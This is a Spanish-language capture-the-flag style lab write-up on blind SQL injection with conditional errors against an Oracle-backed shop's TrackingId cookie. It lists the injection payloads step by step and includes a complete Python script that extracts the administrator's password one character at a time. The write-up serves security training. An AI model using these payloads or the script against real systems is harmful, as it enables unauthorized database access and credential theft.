





# Lab: Blind SQL injection with conditional errors

## Objetivo
Obtener la contraseña del usuario administrator.

## Información dada

* La cookie de seguimiento es usada en la consulta sql
* Tabla 'users' con las columnas de username y password.
*  Si la consulta causa un error, se retorna un mensaje de error


## Exploración


La pagina proporciona una cookie de sesion y seguimiento. 


---


## Explotacion

Se agrego una comilla simple al final de la cookie 'TrackingId'. Esto provoco que se mostrara el mensaje de 'Internal Server Error' . Despues se agrego `'--` y no se noto algun cambio en la pagina


Para determinar la cantidas de columnas tomadas en la consulta, se inyecto `'+ORDER+BY+N--` , y se incremento `N`, hasta que hubo un cambio en el comportamiento de la pagina. Se determino que la consula solo uso una columna




Para determinar el tipo de dato compatible con la columna consultada se inyecto  `9fM9jLDmgdZjEkWK'+UNION+SELECT+'a'--`, lo que provoco que el servidor respondiera con el mensaje de `Internal Server Error`. La inyeccion se modifico suponiendo que el gestor de bdd usado fue el de oracle: `9fM9jLDmgdZjEkWK'+UNION+SELECT+'a'+FROM+DUAL--`. Al no obtener un nuevo mensaje de error se determino que el gestor de bdd utilizado era oracle y que un dato de tipo string era comṕatible con la columna consultada




El acceso a la tabla `users` se confirmo al no visualizar ningun mensaje de error despues de realizar la inyeccion:
```
'+UNION+SELECT+username+FROM+users--
``` 


Para determinar el tamaño de la contraseña se inyecto `'||(SELECT CASE WHEN LENGTH(password)=N THEN TO_CHAR(TO_NUMBER('AAS')) ELSE 'A' END FROM users WHERE username='administrator')--` , y se incremento `N`, hasta que se provoco el mensaje de error en la pagina. Se determino que la contraseña tuvo una longitud de 20 caracteres




Para obtener la contraseña se desarrolló un script en Python que automatiza las inyecciones SQL. El script realiza peticiones probando cada carácter posible para cada posición de la password y determina el valor correcto a partir de la respuesta de la aplicación(Buscando el mensaje "Internal Server Error").

```python
#!/usr/bin/env python3
import sys
import requests
import urllib3
import string
from pwn import *
urllib3.disable_warnings()
proxies={"http":"http://127.0.0.1:8080","https":"http://127.0.0.1:8080"}

def findPassword(url,cookies,longitud):
    iny = log.progress("Realizando inyeccion: ")
    lp = log.progress("Caracteres encontrados: ")
    pazz=""
    trackingId=cookies["TrackingId"]
    lista=string.ascii_letters+string.digits
    injectionTemplate="{trackingId}'||(SELECT CASE WHEN SUBSTR(password,{pos},1)='{c}' THEN TO_CHAR(TO_NUMBER('AAS')) ELSE 'A' END FROM users WHERE username='administrator')--"
    for pos in range(1,longitud+1):
        for c in lista:
            cookies["TrackingId"] = injectionTemplate.format(trackingId=trackingId,pos=pos,c=c)
            iny.status(f"{cookies['TrackingId']}")
            response = requests.get(url=url,verify=False,cookies=cookies)
            if "Internal Server Error" in response.text:
                pazz+=c
                lp.status(pazz)
                break

    print(f"[+] La contraseña para el usuario administrator es: {pazz}")


def main():
    url=sys.argv[1].strip("/")
    response = requests.get(url,verify=False)
    findPassword(url=url,cookies=response.cookies.get_dict(),longitud=20)


main()
```

Uso:
```bash
./script.py <url>
```


Resultado de la ejecucion:


